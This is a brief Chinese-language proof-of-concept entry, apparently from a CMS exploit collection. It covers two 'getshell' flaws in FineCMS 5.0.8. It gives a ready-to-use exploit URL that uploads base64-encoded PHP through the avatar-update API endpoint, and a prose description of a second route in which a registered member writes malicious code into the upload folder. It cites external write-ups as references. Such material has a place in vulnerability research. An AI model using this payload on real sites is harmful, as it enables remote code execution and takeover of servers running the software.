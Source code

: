 # FineCMS最新版5.0.8两处getshell

## Affected Version 

5.0.8

## poc

第一处payload


    127.0.0.1/finecms/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+


查看结果

![](http://opmi2ydgh.bkt.clouddn.com//17-7-3/35617053.jpg)

第二处

先注册，登录，然后写入恶意代码。

![](http://opmi2ydgh.bkt.clouddn.com//17-7-3/81165201.jpg)

会在\uploadfile\member文件夹下生成写入的代码文件夹以及恶意代码。

![](http://opmi2ydgh.bkt.clouddn.com//17-7-3/57501522.jpg)

## References
1. http://4o4notfound.org/index.php/archives/40/
2. https://github.com/404notf0und/CMS-POC/tree/master/script

